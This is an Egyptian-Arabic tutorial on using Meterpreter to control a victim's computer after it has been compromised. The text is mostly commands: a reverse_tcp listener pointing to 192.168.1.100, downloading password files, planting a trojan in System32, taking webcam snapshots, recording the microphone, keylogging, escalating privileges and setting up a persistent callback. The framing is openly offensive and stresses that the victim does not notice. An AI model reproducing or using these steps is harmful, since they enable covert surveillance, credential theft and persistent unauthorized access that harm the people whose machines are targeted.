 هناخد الموضوع من **الصفر لحد الاحتراف**، بحيث تفهم **Meterpreter** كويس وتعرف إزاي تستخدمه في **التحكم الكامل في جهاز الضحية** بعد الاختراق.

---

# **🔹 Meterpreter: أقوى شيل تفاعلي بعد الاختراق 🔹**

## **📌 يعني إيه Meterpreter؟**

✅ **Meterpreter** هو نوع متطور من الـ **Shell** اللي بيتم حقنه داخل جهاز الضحية بعد تنفيذ الـ **Payload**.  
✅ بيديك **تحكم كامل** في النظام بدون ما الضحية يحس، وبيشتغل **في الذاكرة (RAM)** علشان يقلل فرص اكتشافه.  
✅ تقدر من خلاله **تنقل ملفات، تسجل الكيبورد، تفتح الكاميرا، تتحكم في الشبكة، ترفع امتيازاتك، وتثبّت نفسك في النظام** علشان متفقدش الجلسة بعد الريستارت.

---

## **🔥 أوامر Meterpreter الأساسية بعد الاختراق**

### **🟢 1. معرفة معلومات عن جهاز الضحية**

📌 **أمر `sysinfo`** – بيعرض لك بيانات عن جهاز الضحية:

```bash
meterpreter > sysinfo
```

🎯 **هتلاقي:**  
✅ اسم النظام  
✅ نوع المعالج  
✅ إصدار الويندوز

📌 **أمر `getuid`** – بيعرفك أنت داخل بحساب مين على الجهاز:

```bash
meterpreter > getuid
```

🎯 **هتعرف:**  
✅ اسم المستخدم الحالي اللي أنت شغال بصلاحياته

📌 **أمر `ipconfig`** – بيعرض بيانات الشبكة للضحية:

```bash
meterpreter > ipconfig
```

🎯 **هتعرف:**  
✅ عنوان IP الداخلي للجهاز  
✅ معلومات الشبكة المتصلة

---

### **🟢 2. التحكم في الملفات والمجلدات**

📌 **عرض الملفات والمجلدات الموجودة:**

```bash
meterpreter > ls
```

📌 **الدخول لمجلد معين:**

```bash
meterpreter > cd C:\\Users\\Admin\\Desktop
```

📌 **تحميل ملف من جهاز الضحية لجهازك:**

```bash
meterpreter > download passwords.txt
```

📌 **رفع ملف لجهاز الضحية:**

```bash
meterpreter > upload trojan.exe C:\\Windows\\System32
```

📌 **مسح ملف من جهاز الضحية:**

```bash
meterpreter > rm passwords.txt
```

---

### **🟢 3. تشغيل أوامر النظام (CMD أو PowerShell)**

📌 **فتح شيل عادي على جهاز الضحية:**

```bash
meterpreter > shell
```

🎯 **تقدر تنفذ أوامر ويندوز زي:**

```bash
C:\> net user
C:\> whoami
C:\> tasklist
```

📌 **تشغيل أي برنامج أو أمر على جهاز الضحية:**

```bash
meterpreter > execute -f notepad.exe
```

🎯 **هتفتح النوت باد عند الضحية بدون ما يحس!**

📌 **إعادة تشغيل الجهاز:**

```bash
meterpreter > reboot
```

📌 **إغلاق الجهاز تمامًا:**

```bash
meterpreter > shutdown
```

---

### **🟢 4. التجسس والمراقبة (كاميرا - مايك - كيبورد)**

📌 **عرض الكاميرات المتصلة بالجهاز:**

```bash
meterpreter > webcam_list
```

📌 **التقاط صورة من كاميرا الضحية:**

```bash
meterpreter > webcam_snap
```

📌 **تسجيل الصوت من ميكروفون الضحية لمدة 10 ثواني:**

```bash
meterpreter > record_mic -d 10
```

📌 **تشغيل Keylogger لتسجيل ضربات الكيبورد:**

```bash
meterpreter > keyscan_start
```

📌 **عرض كل اللي كتبه الضحية على الكيبورد:**

```bash
meterpreter > keyscan_dump
```

📌 **إيقاف تسجيل الكيبورد:**

```bash
meterpreter > keyscan_stop
```

---

### **🟢 5. رفع الامتيازات Privilege Escalation**

📌 **معرفة مستوى الصلاحيات الحالي:**

```bash
meterpreter > getuid
```

📌 **محاولة ترقية الامتيازات تلقائيًا:**

```bash
meterpreter > run post/windows/escalate/getsystem
```

📌 **تشغيل PowerShell بصلاحيات أعلى:**

```bash
meterpreter > powershell_shell
```

🎯 **لو نجحت، تقدر تنفذ أوامر بصلاحيات الـ Admin!**

---

### **🟢 6. تثبيت Meterpreter في النظام علشان متفقدش الجلسة بعد الريستارت**

📌 **تفعيل الـ Persistence (البقاء بعد الريستارت):**

```bash
meterpreter > run persistence -U -i 10 -p 4444 -r 192.168.1.100
```

🎯 **بكده حتى لو الضحية قفل الجهاز، هتقدر توصله تاني بسهولة!** 🔥

---

# **💡 الخلاصة بالمصري:**

1️⃣ **Meterpreter هو أقوى أداة تحكم بعد الاختراق، بيديك صلاحيات خطيرة تقدر تستخدمها في السيطرة على الجهاز بالكامل!**  
2️⃣ **أوامر أساسية:**

- `sysinfo` ➝ تعرف بيانات الجهاز
- `cd` و `ls` ➝ تتصفح الملفات
- `download` و `upload` ➝ تنقل ملفات  
    3️⃣ **تقدر تراقب الضحية بالكامل:**
- `webcam_snap` ➝ تفتح الكاميرا
- `record_mic` ➝ تسجل الصوت
- `keyscan_start` ➝ تسجل ضربات الكيبورد  
    4️⃣ **رفع الامتيازات (`getsystem`) بيديك تحكم أقوى وصلاحيات أعلى**  
    5️⃣ **باستخدام `persistence`، حتى لو الضحية قفل الجهاز، هترجع له تاني!**

---

# **🛠️ خطوات عملية لاستخدام Meterpreter بكفاءة:**

✅ **1. بعد نجاح الاختراق، افتح جلسة Meterpreter:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

✅ **2. استخدم أوامر المعلومات الأساسية:**

```bash
sysinfo
getuid
ipconfig
```

✅ **3. تحكم في الملفات:**

```bash
ls
cd C:\\Users\\Admin\\Desktop
download passwords.txt
upload trojan.exe C:\\Windows
```

✅ **4. فعل الـ Keylogger والتجسس على الكاميرا:**

```bash
keyscan_start
webcam_snap
record_mic -d 20
```

✅ **5. ثبّت نفسك في النظام علشان متخسرش التحكم بعد الريستارت:**

```bash
run persistence -U -i 10 -p 4444 -r 192.168.1.100
```

🎯 **بكده هتبقى مسيطر تمامًا على الجهاز وبتنفذ الـ Post-Exploitation بأفضل طريقة!** 🔥🚀